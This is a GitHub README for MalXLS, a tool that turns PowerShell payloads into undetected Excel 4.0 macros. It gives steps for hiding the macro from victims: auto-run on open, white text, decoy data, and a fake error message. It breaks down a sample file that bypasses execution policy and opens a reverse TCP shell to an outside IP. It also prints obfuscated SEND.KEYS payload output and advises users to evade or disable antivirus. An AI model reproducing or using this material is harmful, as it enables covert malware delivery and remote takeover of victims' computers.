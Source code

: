 # Foreword

This is an old project from 2020 that I created on a different account. The original repository is gone, but the first person that forked it became the new owner. I decided to reupload the project on this account (davidcristian)

# Disclaimer

MalXLS is provided "as is", without warranty of any kind. The author of the project takes no responsibility for the abuse of anything provided and presented in the repository. Illegal usage of MalXLS is strictly prohibited.

# MalXLS

MalXLS is a quick way to encode undetected PowerShell payloads for Excel 4.0 Macro sheets.

Note that antivirus software may block the execution of certain PowerShell scripts even if the payload itself is undetected. It is the user's responsibility to work around the antivirus or disable it through other means.

### Why use the XLS format instead of XLSM? Why use Excel 4.0 Macros instead of VBA?

Read this blog post: https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/

The important part starts at the `Support for XLM` section.

It is also not immediately obvious that the file contains a macro if it is saved under `XLS` instead of `XLSM` until the warning is displayed when opening the file.

## Getting Started

- Create a new Excel workbook and save it under the XLS format, then insert a new MS Excel 4.0 Macro sheet.
- (Optional) Delete the default sheet and rename the macro sheet to something less obvious
- Insert your payload into the macro sheet (preferrably in a random cell), then rename the first cell of the payload to `Auto_Open` to run the payload automatically when opening the file
  - For an example, see the provided `Book1.xls` file. It does not contain a cell named `Auto_Open`
  - See [Usage](#usage) for instructions on generating a payload
- (Optional) Change the text color to `WHITE` and make sure the cells are the same size as regular cells
- Activate cell `A1` so that it is not immediately obvious where the payload is when opening the file
- (Optional) Insert some faux data at the beginning of the sheet
- Remove identifying information from the file (File > Info > Check for Issues > Inspect Document)

<details>
  <summary>Book1.xls breakdown</summary>    
  <br /><img src="https://raw.githubusercontent.com/davidcristian/MalXLS/master/Excel%20File%20Examples/virus_scan.png" alt="A screenshot of the virus scan results from multiple engines" /><br /><p><a href="https://www.virustotal.com/gui/file/e5f25bb70bac14f8909fce9385a55557955b9bfa2a26d8be42ff5208f1488127/detection">Scan results</a></p><br /><img src="https://raw.githubusercontent.com/davidcristian/MalXLS/master/breakdown.png" alt="A screenshot of the commands (numbered) inside Book1.xls" />
  <p>
    
    1.  Disable all warnings and errors so that the macro never breaks
    2.  Open PowerShell in a minimized state (keystrokes still go through)
    3.  Wait 1 second
    4.  Hide the PowerShell window
    5.  Continuation of 4.
    6.  Wait 1 second
    7.  Open a 32bit PowerShell session if the current one is 64bit
    8.  Wait 1 second
    9.  Set the execution policy to bypass for the current session so that any script may run
    10. Wait 1 second
    11. Start a reverse TCP connection to 192.168.144.134 on port 4242 (Note that this is blocked by Windows Defender)
    12. Continuation of 11.
    13. Continuation of 11.
    14. Wait 1 second
    15. Activate the Excel window
    16. Display a faux error message about there being an error when opening the file
    17. Close Excel (no warnings will be shown due to 1.)
  </p>
</details>

### Prerequisites

[.NET Framework 4.8](https://dotnet.microsoft.com/download/dotnet-framework/net48) is required to run the binary that computes payloads.

If you are using Windows 10 and have the May 2019 Update (1903) you are good to go, otherwise you need to install the runtime.

### Usage

The payload generator can be downloaded from the [Releases](https://github.com/davidcristian/MalXLS/releases) page. The source code is available in the `Generate Payload` directory.

```
ComputePayload
Usage: .\ComputePayload.exe [OPTION]... [FILE]... [-C]
  -e    Compress a file using GZip and encode it into a base64 string
  -f    Fix the bad characters in a file (use on one-liners)
  -c    Copy the generated commands into the clipboard
```

Example:

```
.\ComputePayload.exe -e .\clear_history.ps1 -c
=SEND.KEYS("$b=""H4sIAAAAAAAEAJWQQWsCMRCF7wv{+}h0Es7h42h14KggeRWkvVLkbwID2k7sgGshnZjMoi/vcm7hZb8NDeMpm8L{+}{+}9XqGOmMklqtxoizCEuGcPxkDqh/gFOZ1TfjAI6fMIpDZo2dRjsqztAeEmTJJO1In0zst/ExM4dyKAsUFVpVNyHKbwboWO00xx0XxzU7zvWZNNxFQ7pqqWAeefeRAELcASSzpi{+}spYNraY9n{+}EtIQm4hAW"; TRUE)
=SEND.KEYS("eGoxq3qPMNEh6D88BdrlR7xmGy42c72tyNGORUYnrGSBxohM{+}uocGQzcmed{+}DAZXaauMfYsXQOPwXmvfrjeydt60WOLO4DYYEyPnsPw0tefNSOVrzUWmKtbKLFSJcbdVrLXN6eTEhKrSdZOr0XsrIdHmb1g7zwvHtdIc9x/Okyd4vPSTO4l9C1/sVYH1SwIAAA=="";nal no New-Object -F;iex {(}no IO.StreamReader{(}no "; TRUE)
=SEND.KEYS("IO.Compression.GZipStream{(}{(}no IO.MemoryStream -A @{(},{[}Convert{]}::FromBase64String{(}$b{)}{)}{)},{[}IO.Compression.CompressionMode{]}::Decompress{)}{)}{)}.ReadToEnd{(}{)}~{NUMLOCK}"; TRUE)
```

## Known Issues

- Sending large commands requires multiple wait instructions (usually every 3 cells). The cause for this is unknown because the `TRUE` switch for `SEND.KEYS` should wait for the keystrokes to be processed before going to the next instruction, which is not always the case and results in mixed keystrokes and a broken payload.

## License

This project is licensed under the GPLv3 License - see the [LICENSE](LICENSE) file for details

Files belonging to other authors have their license in the same directory as them.

## Acknowledgments

- PowerShell decoding, decompression, execution, hide_window.ps1, and assure_32bit.ps1 snippets from MaMe82's [helper.js](https://github.com/RoganDawes/P4wnP1_aloa/blob/master/dist/HIDScripts/helper.js) file for the [P4wnP1 A.L.O.A.
  ](https://github.com/RoganDawes/P4wnP1_aloa)
- PowerShell clear_history.ps1 script from [here](https://stackoverflow.com/a/38807689)
- PowerShell reverse_shell.ps1 script from [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell) (second one)
- [This](https://d13ot9o61jdzpp.cloudfront.net/files/Excel%204.0%20Macro%20Functions%20Reference.pdf) excellent book

